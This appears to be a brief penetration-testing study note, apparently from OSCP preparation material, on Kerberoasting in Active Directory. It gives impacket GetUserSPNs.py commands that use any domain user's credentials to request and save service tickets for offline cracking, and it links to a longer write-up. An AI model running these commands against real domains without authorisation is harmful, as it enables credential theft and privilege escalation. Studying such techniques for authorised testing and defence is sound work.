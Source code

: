 ## Kerberoasting

Use **GetUserSPNs.py** from impacket to get administrator Kerberos ticket
```
//You need credentials of any user to do that
./GetUserSPNs.py -request <domain>/<user>
GetUserSPNs.py -request -dc-ip <IP> <domain>/<user> -save -outputfile GetUserSPNs.out
```

More info here: https://github.com/nestef23/my-OSCP-notes/blob/main/Active%20Directory/Kerberoasting.md
